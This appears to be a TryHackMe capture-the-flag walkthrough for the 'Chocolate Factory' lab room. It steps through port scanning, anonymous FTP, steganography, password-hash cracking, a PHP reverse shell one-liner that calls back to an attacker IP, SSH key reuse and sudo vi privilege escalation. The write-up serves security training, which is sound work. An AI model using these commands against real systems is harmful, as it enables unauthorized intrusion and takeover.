 ## TryHackMe | Chocolate Factory

### Step 1: Reconnaissance

Start with an nmap scan against the target machine: 

```
nmap -sV -sC [Target IP]
```
We use -sV for a more verbose response, and -sC for standard scripts. Additionally, if you'd like to put the output into a file, you can add -oN [filename].

![NmapScan](THMScreenshots/ChocolateFactory/NmapScan.png)

When our scan finishes, we'll see ports 21, 22, 80, 100, 106, 109, 110, 111, 113, 119, and 125 open. 21 is the port for FTP, and it looks like it allows anonymous login, so we're going to try that first.

```
ftp [Target IP]
```
Make sure to long in as Anonymous! Once we're logged in, you can see there's a file called gum_room.jpg. We can grab that file by using the ```get [file]``` command and exit ftp.

![FTP](THMScreenshots/ChocolateFactory/FTP.png)

### Steganography

There's gotta be some sort of information on this image, otherwise why would it be there? Information that's hidden in files such as images or videos is called steganography. The first thing we should do is use the exif tool to get the metadata from the image.

```
exiftool gum_room.jpg
```
We don't find anything super useful here so try using ```steghide``` instead.

```
steghide extract -sf gum_room.jpg

-sf for select stego file
```

The steghide tool will extract the contents of the image into a .txt file, which seems to be encoded with base64.

![steghide](THMScreenshots/ChocolateFactory/steghide.jpg)

We can use the following command to decode the contents:
```
cat b64.txt | base64 -d > [new file]
```
If you check the contents of the file, you'll notice we've found the username and hashed password for the user "charlie."

So lets see if we can crack this hashed password. Start up John the Ripper.
```
john --wordlist=/usr/share/wordlists/rockyou.txt [file w/ password hash]
```
Once john is finished, we now have our password for the user charlie!

### Accessing the Target Machine and Question 1

We can try logging in with ssh, but once you do, it'll require a key as well with the password. So lets go check out the web server we found in our nmap scan.

![httpserver](THMScreenshots/ChocolateFactory/httpserver.png)

We have a login prompt! Let's use the credentials we just cracked, and it should let us log in.

Once logged in, the page just gives us a spot to enter and execute commands. Lets try getting a php reverse shell going. You can find options to try by going to: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

First, open a listener on your machine:
```
nc -lvnp [port]
-l for listener
-v for verbose
-n for no DNS lookups
-p for port
```

Then edit the reverse shell line with your ip address and port that you opened, which in this case will be the php reverse shell:
```
php -r '$sock=fsockopen("10.10.145.135",9000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Paste it into the command prompt on the webserver, hit execute, and you should be in!

![phpreverseshell](THMScreenshots/ChocolateFactory/phpreverseshell.png)

Once we're in, list the contents of the current working directory, and there's an interesting file called rev_key_rev. If we cat out the contents of that file, it looks like absolutely nothing. But lets try using ```strings``` to see if there's any important strings in the file. It just so happens that our key is in this file!

### User Flag

First thing's first, since we already have the login credentials, we can go ahead and change our user to charlie.
```
su charlie
```
Unfortunately, it's asking us to do so from a terminal. So go to the /home/charlie directory, and you'll find our first flag, teleport and teleport.pub. User.txt is only readable if we become the charlie user. 

![charliedirectory](THMScreenshots/ChocolateFactory/charliedirectory.png)

If we check teleport, it's actually a private key! If you remember, that's actually exactly what we needed to ssh into the system as charlie earlier. Lets copy that to our system and ssh in so we can act as the charlie user.

Make a file called id_rsa, paste the private key contents into it, and do ```chmod 600 id_rsa```. We're now ready to ssh in.

```
ssh -i id_rsa charlie@targetIP
```
We are now charlie, and can grab the user.txt flag!

![userflag](THMScreenshots/ChocolateFactory/userflag.png)

### Root Flag

Now it's time to escalate our privileges to root.

Firstly, we want to see what commands we can run as sudo.
```
sudo -l
```

Looks like we can run vi as sudo! Let's check and see if there's any privilege escalation methods on https://gtfobins.github.io. Sure enough, it's pretty simple!

![PrivilegeEsc](THMScreenshots/ChocolateFactory/PrivilegeEsc.png)

We can just copy and paste that command into our terminal, and we are now root! Once we head to the /root/ directory, we'll notice there's a script called ```root.py```
Run it and see what happens!

![rootflag](THMScreenshots/ChocolateFactory/rootflag.png)

Hint: the key is the answer we got for #1.

## Congratulations on completing the Chocolate Factory Room!
